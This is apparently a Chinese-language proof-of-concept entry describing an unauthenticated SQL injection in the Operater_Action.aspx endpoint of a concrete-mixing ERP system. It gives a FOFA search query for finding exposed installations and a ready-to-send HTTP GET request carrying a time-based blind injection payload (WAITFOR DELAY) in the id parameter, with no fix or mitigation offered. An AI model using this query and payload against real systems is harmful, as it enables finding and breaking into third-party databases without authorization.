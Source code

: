 ## 商混ERP系统接口Operater_Action.aspx存在SQL注入漏洞

商混ERP系统 **Operater_Action.aspx**接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa

```javascript
title="商混ERP系统"
```

## poc

```javascript
GET /Dispatch/Operater_Action.aspx?action=TaskComplete&id=1%27WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409141642074.png)